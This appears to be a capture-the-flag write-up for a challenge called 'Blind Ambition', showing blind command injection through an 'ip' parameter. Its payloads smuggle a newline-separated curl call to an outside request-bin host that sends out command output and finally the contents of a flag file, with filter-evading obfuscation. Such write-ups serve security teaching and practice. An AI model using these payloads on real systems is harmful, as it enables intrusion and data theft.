









## Blind Ambition

Again, same page:

If I supply the IP I get a message saying that the host is down:

If I supply the whoami command I get that the host is up and results will be sent via e-mail.

I can try some SSRF by setting up a requestbin and using the curl command. 
`ip=127.0.0.1%0acurl eofz8ukxdl0hloq.m.pipedream.net`

 
And I see that the request hits my endpoint: 

 
 
 Let's try with whoami 
 `ip=127.0.0.1%0acurl eofz8ukxdl0hloq.m.pipedream.net/$(whoa$()mi)`

 
 
That works:
 
 
The final payload is:
 `ip=127.0.0.1%0acurl eofz8ukxdl0hloq.m.pipedream.net/$(c$()at<./../../../flag.txt)`
 
 
 
Finally, I get the flag:

 
 